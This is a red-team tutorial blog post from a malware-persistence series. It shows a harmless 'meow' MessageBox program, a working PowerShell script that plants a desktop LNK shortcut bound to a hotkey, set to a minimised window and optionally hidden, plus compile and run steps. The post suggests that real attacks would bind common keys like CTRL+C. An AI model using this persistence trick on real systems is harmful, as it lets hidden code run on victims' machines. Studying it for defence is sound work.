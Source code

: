 ```yaml
---
title:  "Malware development: persistence - part 23. LNK files. Simple Powershell example."
date:   2023-12-10 03:00:00 +0300
header:
  teaser: "/assets/images/112/2023-12-11_01-01_1.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/112/2023-12-11_01-01_1.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via Windows LNK files.     

### LNK

According to [Microsoft](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943), an `LNK` file serves as a shortcut or "link" in Windows, providing a reference to an original file, folder, or application. For regular users, these files serve a meaningful purpose, facilitating file organization and workspace decluttering. However, from an attacker's perspective, `LNK` files take on a different significance. They have been exploited in various documented attacks by APT groups and, to my knowledge, remain a viable option for activities such as phishing, establishing persistence, executing payloads.     

Do you know that Windows shortcuts can be registered using a shortcut key in terms of execution? This is the main trick for malware persistence in this case.    

### practical example

Let's say we have a "malware". As usually, `meow-meow` messagebox application `hack.c`:    

```cpp
/*
hack.c
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/12/10/malware-pers-23.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And then, just create powershell script for create `LNK` file with the following properties:     

```powershell
# Define the path for the shortcut on the desktop
$shortcutPath = "$([Environment]::GetFolderPath('Desktop'))\Meow.lnk"

# Create a WScript Shell object
$wshell = New-Object -ComObject Wscript.Shell

# Create a shortcut object
$shortcut = $wshell.CreateShortcut($shortcutPath)

# Set the icon location for the shortcut
$shortcut.IconLocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"

# Set the target path and arguments for the shortcut
$shortcut.TargetPath = "Z:\2023-12-10-malware-pers-23\hack.exe"
$shortcut.Arguments = ""

# Set the working directory for the shortcut
$shortcut.WorkingDirectory = "Z:\2023-12-10-malware-pers-23"

# Set a hotkey for the shortcut (e.g., CTRL+W)
$shortcut.HotKey = "CTRL+W"

# Set a description for the shortcut
$shortcut.Description = "Not malicious, meow-meow malware"

# Set the window style for the shortcut (7 = Minimized window)
$shortcut.WindowStyle = 7

# Save the shortcut
$shortcut.Save()

# Optionally make the link invisible by adding 'Hidden' attribute
# (Get-Item $shortcutPath).Attributes += 'Hidden'
```

As you can see, the logic is pretty simple. We simply create a shortcut on the desktop that has a hotkey specified: `CTRL+W`. Of course, in real attack scenarios it could be something like `CTRL+C`, `CTRL+V` or `CTRL+P`, etc.    

For example, if you create a shortcut for `Paint`, it does not have any hotkey specified:    

![pers](/assets/images/112/2023-12-09_23-54.png){:class="img-responsive"}    

> Explorer restricts shortcut support to commands beginning with CTRL+ALT. Additional sequences must be set programmatically through COM.    

### demo

Let's go to see everything in action. First of all, compile our "malware":      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/112/2023-12-11_01-28.png){:class="img-responsive"}    

For checking corretness, run it:    

```powershell
.\hack.exe
```

![pers](/assets/images/112/2023-12-11_00-51.png){:class="img-responsive"}    

The just run our powershell script for persistence:    

```powershell
Get-Content pers.ps1 | PowerShell.exe -noprofile -
```

![pers](/assets/images/112/2023-12-11_00-57.png){:class="img-responsive"}    

As a result, Meow LNK file is created successfully.    

If we look at its properties, everything is ok:     

![pers](/assets/images/112/2023-12-11_01-01.png){:class="img-responsive"}    

Finally just run it and try to trigger `CTRL+W` hotkey:     

![pers](/assets/images/112/2023-12-11_01-02.png){:class="img-responsive"}    

![pers](/assets/images/112/2023-12-11_01-05.png){:class="img-responsive"}    

As you can see, everything worked perfectly as expected! =^..^= :)    

This technique is used by APT groups like [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) and software like [Emotet](https://attack.mitre.org/software/S0367/) in the wild. In all honesty, this method is widely employed and widespread due to its extreme convenience in deceiving the victims.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

Many thanks to my friend and colleague [Anton Kuznetsov](https://twitter.com/yrevichus), he reminded me of this technique when he presented one of his most amazing talks.     

> This is a practical case for educational purposes only.      

[ATT&CK MITRE: T1204.001](https://attack.mitre.org/techniques/T1204/001/)     
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[Emotet](https://attack.mitre.org/software/S0367/)    
[MSDN: Shell Link (.LNK) Binary File Format](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)     
[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-12-10-malware-pers-23)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
